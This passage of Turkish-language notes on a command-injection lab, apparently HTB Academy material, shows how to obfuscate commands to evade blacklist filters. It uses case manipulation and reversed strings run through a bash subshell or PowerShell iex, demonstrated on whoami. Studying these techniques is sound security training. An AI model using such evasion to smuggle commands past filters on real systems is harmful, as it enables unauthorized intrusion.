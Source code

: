Aşağıdaki gibi aynı amaçla kullanabileceğimiz başka birçok komut vardır:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```


## Tersine Çevrilmiş Komutlar

Tartışacağımız bir başka komut gizleme tekniği de komutları tersine çevirmek ve onları gerçek zamanlı olarak çalıştıran bir komut şablonuna sahip olmaktır. Bu durumda, blacklisted komutunu tetiklemekten kaçınmak için whoami yerine imaohw yazacağız.

Bu tür tekniklerle yaratıcı olabilir ve sonunda gerçek komut kelimelerini içermeden komutu çalıştıran kendi Linux/Windows komutlarımızı oluşturabiliriz. İlk olarak, terminalimizde komutumuzun ters çevrilmiş dizesini aşağıdaki gibi almamız gerekir:

```shell-session
M1R4CKCK@htb[/htb]$ echo 'whoami' | rev
imaohw
```

Ardından, orijinal komutu aşağıdaki gibi bir alt kabukta ($()) tersine çevirerek çalıştırabiliriz:

```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

Komutun gerçek whoami kelimesini içermemesine rağmen aynı şekilde çalıştığını ve beklenen çıktıyı sağladığını görüyoruz. Bu komutu alıştırmamızla da test edebiliriz ve gerçekten de çalışır:

![Pasted image 20241211031758.png](/img/user/resimler/Pasted%20image%2020241211031758.png)

İpucu: Yukarıdaki yöntemle bir karakter filtresini atlamak isterseniz, bunları da tersine çevirmeniz veya orijinal komutu tersine çevirirken dahil etmeniz gerekir.

Aynı şey Windows’ta da uygulanabilir. İlk olarak bir dizeyi aşağıdaki gibi tersine çevirebiliriz:

```powershell-session
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

Artık bir PowerShell alt kabuğu (iex “$()”) ile tersine çevrilmiş bir dizeyi çalıştırmak için aşağıdaki komutu aşağıdaki gibi kullanabiliriz:

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```


## Encoded Commands
